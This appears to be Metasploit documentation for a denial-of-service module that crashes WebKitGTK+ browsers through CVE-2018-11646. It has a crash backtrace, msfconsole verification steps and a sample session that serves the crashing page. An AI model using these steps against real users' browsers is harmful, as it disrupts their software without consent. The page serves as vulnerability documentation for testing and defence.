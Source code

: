 ## Vulnerable Application

This module exploits a vulnerability in `WebKitFaviconDatabase` when `pageURL` is unset.
If successful, it could lead to application crash, resulting in denial of service.

The `webkitFaviconDatabaseSetIconForPageURL` and `webkitFaviconDatabaseSetIconURLForPageURL`
functions in `UIProcess/API/glib/WebKitFaviconDatabase.cpp` in WebKit, as used in WebKitGTK+
through 2.21.3, mishandle an unset `pageURL`, leading to an application crash.

Related links : 
* https://bugs.webkit.org/show_bug.cgi?id=186164
* https://datarift.blogspot.com/2018/06/cve-2018-11646-webkit.html

## Backtrace using Fedora 27

```
#0 WTF::StringImpl::rawHash
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WTF/wtf/text/StringImpl.h line 508
#1 WTF::StringImpl::hasHash
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WTF/wtf/text/StringImpl.h line 514
#2 WTF::StringImpl::hash
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WTF/wtf/text/StringImpl.h line 525
#3 WTF::StringHash::hash
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WTF/wtf/text/StringHash.h line 73
#9 WTF::HashMap, WTF::HashTraits >::get
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WTF/wtf/HashMap.h line 406
#10 webkitFaviconDatabaseSetIconURLForPageURL
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WebKit/UIProcess/API/glib/WebKitFaviconDatabase.cpp line 193
#11 webkitFaviconDatabaseSetIconForPageURL
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WebKit/UIProcess/API/glib/WebKitFaviconDatabase.cpp line 318
#12 webkitWebViewSetIcon
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WebKit/UIProcess/API/glib/WebKitWebView.cpp line 1964
#13 WTF::Function::performCallbackWithReturnValue
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WebKit/UIProcess/GenericCallback.h line 108
#15 WebKit::WebPageProxy::dataCallback
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WebKit/UIProcess/WebPageProxy.cpp line 5083
#16 WebKit::WebPageProxy::finishedLoadingIcon
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WebKit/UIProcess/WebPageProxy.cpp line 6848
#17 IPC::callMemberFunctionImpl::operator()
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WTF/wtf/glib/RunLoopGLib.cpp line 68
#29 WTF::RunLoop::::_FUN(gpointer)
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WTF/wtf/glib/RunLoopGLib.cpp line 70
#30 g_main_dispatch
at gmain.c line 3148
#31 g_main_context_dispatch
at gmain.c line 3813
#32 g_main_context_iterate
at gmain.c line 3886
#33 g_main_context_iteration
at gmain.c line 3947
#34 g_application_run
at gapplication.c line 2401
#35 main
at ../src/ephy-main.c line 432 

```

## Verification Steps

    Start msfconsole
    use auxiliary/dos/http/webkitplus
    Set SRVHOST
    Set SRVPORT
    Set URIPATH
    run (Server started)
Visit server URL in epiphany web browser which uses webkit. 

## Scenarios

```
msf auxiliary(dos/http/webkitplus) > show options 

Module options (auxiliary/dos/http/webkitplus):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  192.168.1.105    yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH  /                no        The URI to use for this exploit (default is random)


Auxiliary action:

   Name       Description
   ----       -----------
   WebServer


msf auxiliary(dos/http/webkitplus) > run
[*] Auxiliary module running as background job 0.
msf auxiliary(dos/http/webkitplus) > 
[*] Using URL: http://192.168.1.105:8080/
[*] Server started.

msf auxiliary(dos/http/webkitplus) > 
[*] Sending response

msf auxiliary(dos/http/webkitplus) >
```
